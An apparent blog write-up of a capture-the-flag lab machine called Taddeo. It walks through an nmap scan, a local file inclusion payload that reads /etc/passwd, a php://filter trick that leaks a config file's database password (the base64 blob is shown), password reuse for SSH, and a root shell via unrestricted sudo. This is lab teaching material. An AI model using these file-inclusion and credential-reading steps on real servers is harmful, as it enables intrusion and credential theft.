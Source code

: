 ```yaml
---
title: Practical Pentest Labs | Taddeo
date: 2018-07-03 00:00:00 +0000
layout: post
categories: []
image:
  feature: "/968f7dbcabcd64f453a6ece147eda193.jpg"
  credit: ''
  creditlink: ''
description: ''
---
```

This post will describe exploitation of the Taddeo device on [PracticalPenTestLabs](https://practicalpentestlabs.com/).

## Enumeration

As is tradition, we run a full nmap scan:

```bash
nmap -Pn -p22,80,3128 -A 10.0.3.10
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-03 21:30 EDT
Nmap scan report for 10.0.3.10
Host is up (0.094s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f9:4c:ee:5c:41:f0:29:4f:95:7f:6a:c4:ed:84:ab:b3 (DSA)
|   2048 b5:93:28:83:45:8e:7e:b5:74:55:14:4c:41:c3:0a:11 (RSA)
|   256 a1:91:d7:28:ae:16:66:6f:24:36:d1:f3:3d:74:46:e6 (ECDSA)
|_  256 03:2a:6e:17:65:a9:d6:4a:10:c7:91:ca:5d:fd:39:17 (ED25519)
80/tcp   open  http       Apache httpd 2.4.7
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 230   2016-06-21 20:25  config.php
| 115   2016-06-23 19:29  file.php
| 20    2016-06-14 10:38  phpinfo.php
|_
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Index of /
3128/tcp open  http-proxy Squid http proxy 3.3.8
|_http-server-header: squid/3.3.8
|_http-title: ERROR: The requested URL could not be retrieved
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.16
OS details: Linux 3.16
Network Distance: 2 hops
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   95.01 ms 10.10.0.1
2   95.25 ms 10.0.3.10

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.15 seconds
```

So immediately we get a few ports we can browse. Based on what we know about this CTF network. More than likely our shell will be from the HTTP. Because we used the "-A" flag. Nmap enumerated the HTTP website and gathered some additional information that can help us prepare a plan of attack.

![](/assets/img/Screenshot from 2018-07-03 21-35-20.jpg)

On the HTTP landing page, we are greeted with a directory listing. Within this listing we have a few options: phpinfo.php; config.php & file.php

![](/Screenshot from 2018-07-03 21-37-05.jpg)

Phpinfo.php gives us additional information on the target machine. But nothing else was gained from this page. Config.php was blank. It is possible there is content in this file but we can read the contents.

![](/Screenshot from 2018-07-03 21-39-07.jpg)

File.php is interesting however, when we visit this page. We are greeted by a comment that says " Please specify the 'name' parameter" Okay. So if we visit "http://10.0.3.10/file.php?name=" We more than likely will get LFI.

![](/Screenshot from 2018-07-03 21-43-26.jpg)

And Lo and Behold we get /etc/passwd by visiting http://10.0.3.10/file.php?name=/////////////////etc/passwd. Great, so now we have a user on the machine name Taddeo. We'll need this later for SSH. Now that we know we can read system files, let's see what's inside the Config.php.

![](/Screenshot from 2018-07-03 21-43-21.jpg)

By using the PHP filters we can prevent PHP code executing when used in Local File Inclusion. So we visit "http://10.0.3.10/file.php?name=php://filter/convert.base64-encode/resource=config.php" Returned is a base64 encoded string. We will need to decode this before getting the contents of the php config file. We can do this in the command line by executing:

```bash 
echo "PD9waHAKZGVmaW5lKCAnREJfTkFNRScsICd0ZXN0JyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHVzZXJuYW1lICovCmRlZmluZSggJ0RCX1VTRVInLCAndGFkZGVvJyApOwoKLyoqIE15U1FMIGRhdGFiYXNlIHBhc3N3b3JkICovCmRlZmluZSggJ0RCX1BBU1NXT1JEJywgJ3RhZGRlb0AzMjEnICk7CgovKiogTXlTUUwgaG9zdG5hbWUgKi8KZGVmaW5lKCAnREJfSE9TVCcsICdsb2NhbGhvc3QnICk7Cgo/Pgo=" | base64 -d 
```

![](/Screenshot from 2018-07-03 21-44-14.jpg)

Once executed we will get the contents which gives us a password. Although this is a password used in MySQL. It is very common for users to re-use passwords. So let's try this out on the SSH port 22 with the user Taddeo.

![](/Screenshot from 2018-07-03 21-51-37.jpg)

We have a shell! Awesome, but the job isn't over yet. We will need to get root access now. We fire up LinuxPrivChecker.py annnnd. Nothing, nothing interesting. Which is fine because we have a few other tricks up our sleeves before we really start digging deep. But you should always try the quick and dirty tricks first before spending a ridiculous amount of time trying to get root shell. Most times, the answer is right in front of you. Now this version is vulnerable to DirtyCow. However, DirtyCow is also Dirty and more often than not will crash these machines. So best not to use it. What we do have however is a nice prompt when we execute:

```bash
Sudo -l
```

What it reads is:

```bash
User taddeo may run the following commands on TADDEO:

    (ALL) NOPASSWD: ALL
```

![](/Screenshot from 2018-07-03 21-55-46.jpg)

This is good. So we can run programs as sudo without using a password. So let's execute:

```bash
Sudo -s
```

and see if we can get a root shell.

Tadaa! We have root and our flag.

![](/Screenshot from 2018-07-03 21-56-50.jpg)